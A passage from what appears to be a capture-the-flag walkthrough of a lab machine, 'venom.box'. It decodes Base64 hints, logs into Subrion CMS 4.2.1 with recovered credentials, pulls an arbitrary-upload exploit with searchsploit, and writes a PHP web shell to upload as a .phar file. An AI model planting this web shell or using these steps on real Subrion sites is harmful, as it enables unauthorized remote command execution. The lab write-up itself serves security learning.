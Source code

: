 Now we finally have a result in text. Vigenere is another type of encryption that requires a key to decipher it. We can try to decipher it using the CyberChef website and selecting the Vigenere option.

We enter the password we saw earlier in the `hint.txt` file in the input field and we need the key to decipher it, which we can find in the other Base64 encryption in the `hint.txt` file. Let's try to decipher it:

```
echo "aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=" | base64 -d; echo
```
This gives us a web address, which is another website where we can decipher the Vigenere encryption. We still don't have the key, so let's try using the `hostinger` password of the `hostinger` user as the key

And try it with the input and output in the virtual hosting `venom.box` that we saw in the `hint.txt` file.

If we do a `ping -c 1 venom.box` command, we see that it doesn't resolve anything. So let's open the `/etc/hosts` file with your preferred editor and put the victim's IP and `venom.box` so that when we call `venom.box`, it refers to the victim's IP.

Now if we run `ping -c 1 venom.box` again, we see that it gives us a connection. Let's open it in the browser to see what it is about:

We use `whatweb` to enumerate the services that `venom.box` has:

```
whatweb http://venom.box
```
We see `Subrion 4.2`, which is an open-source content management system that has an authentication panel. The `hint.txt` file mentions the `dora` user, so let's try logging in with the `dora` username and the output that CyberChef gave us. We are able to log in as an administrator.

If we enter the administration panel, we can see that the Subrion CMS version is `4.2.1`, so let's search for vulnerabilities associated with this version:

```
searchsploit subrion v 4.2.1
```
We find an arbitrary file upload. If we analyze the code of the `49876.py` exploit, we can get an idea of how to proceed, we can download the file to our folder as follows:

```
searchsploit -m php/webapps/49876.py
```
We see that the type of file that the exploit uploads is a file with a `.phar` extension. We also see that the directory to which the file is uploaded is `/uploads`.

We are going to create our `pwned.phar` file using PHP:

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Let's try to upload our file to `http://venom.box/panel/uploads/`.
